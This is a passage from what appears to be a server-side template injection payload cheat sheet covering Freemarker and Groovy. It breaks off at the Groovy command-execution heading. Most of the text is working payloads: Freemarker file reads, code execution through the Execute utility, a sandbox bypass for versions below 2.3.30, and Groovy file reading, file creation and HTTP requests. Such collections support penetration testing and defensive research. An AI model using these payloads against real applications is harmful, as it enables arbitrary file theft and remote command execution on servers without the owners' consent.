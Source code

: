### Freemarker - Read File

```js
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
Convert the returned bytes to ASCII
```

### Freemarker - Code execution

```js
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
```

### Freemarker - Sandbox bypass

:warning: only works on Freemarker versions below 2.3.30

```js
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

---

## Groovy

[Official website](https://groovy-lang.org/)

### Groovy - Basic injection

Refer to https://groovy-lang.org/syntax.html , but `${9*9}` is the basic injection.

### Groovy - Read and create File

```groovy
${String x = new File('c:/windows/notepad.exe').text}
${String x = new File('/path/to/file').getText('UTF-8')}
${new File("C:\Temp\FileName.txt").createNewFile();}
```

### Groovy - HTTP request:

```groovy
${"http://www.google.com".toURL().text}
${new URL("http://www.google.com").getText()}
```

### Groovy - Command Execution
